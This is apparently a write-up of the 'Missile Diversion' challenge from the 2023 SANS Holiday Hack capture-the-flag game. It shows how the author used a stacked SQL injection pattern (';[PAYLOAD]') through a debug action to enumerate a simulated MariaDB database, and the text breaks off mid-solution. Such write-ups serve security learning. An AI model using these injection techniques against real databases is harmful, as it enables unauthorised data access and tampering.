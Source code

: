 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

#### **Query**: `; SELECT * FROM pointing_mode_to_str`
id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
#### **Query**: `; SELECT * FROM user_variables`
java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
#### **Query**: `; SELECT * FROM messaging`
id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|  
id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|  
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|  
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|  
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|  
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|  
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|  
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|  
#### **Query**: `; SELECT * FROM pointing_mode`
id: 1 \| numerical_mode: 0 \|  
#### **Query**: `; SELECT * FROM target_coordinates`
id: 1 lat: 1.14514 \| Ing: -145.262 \|  
#### **Query**: `; SELECT * FROM satellite_query`
VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: 
```
import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report
```